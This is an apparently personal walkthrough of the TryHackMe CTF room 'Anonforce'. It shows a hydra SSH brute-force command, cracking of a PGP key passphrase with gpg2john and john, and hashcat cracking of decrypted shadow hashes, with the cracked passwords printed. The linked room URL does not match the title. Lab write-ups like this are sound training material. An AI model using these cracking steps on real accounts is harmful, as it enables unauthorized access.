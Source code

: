 ```yaml
---

title: Walkthrough - Anonforce
published: true
---
```


Security. boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

a ftp and an ssh server

ftp allowd anon connections so connecting to that we find a user `melodias`. lets start a hydra ssh while we try to find more info.

- `hydra -l melodias -P /usr/share/seclists/Passwords/rockyou.txt 10.10.146.159 ssh`

So found a few new interesting files to check out `pricate.asc` which is an asc file. ASC files are used for posting online security notices as well as securely transmitting messages. Also find a `backup.pgp` which is a pretty good privacy security key. What can we do with these?

- `pgpdump backup.pgp`
- we can try to import the private key `gpg --import private.asc` but doing so we need a passphrase to import.
- feed it to gpg2john `gpg2john private.asc > private-john.asc` then feed the output to john `john private-john.asc --wordlist=/usr/share/seclists/Passwords/rockyou.txt`

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Anonforce/ftp]
└─$ john private-john.asc --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)     
1g 0:00:00:00 DONE (2022-08-10 23:04) 5.555g/s 5177p/s 5177c/s 5177C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- now we can import the key `gpg --import private.asc` 
- and then decrypt the `backup.gpg` - `gpg --decrypt backup.pgp`

Clipping this as we have 2 different hashes.

- root.hash

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
```

- `hcat -m 1800 root.hash /usr/share/seclists/Passwords/rockyou.txt`
- cracked `$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari`

- melodias.hash

```
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

- `hashcat -m 500 melodias.hash /usr/share/seclists/Passwords/rockyou.txt`
- exhausted



* * * 

## What is the user flag?

- `cat user.txt`

* * * 

## What is the root flag?

- `cat root.txt`

* * * 

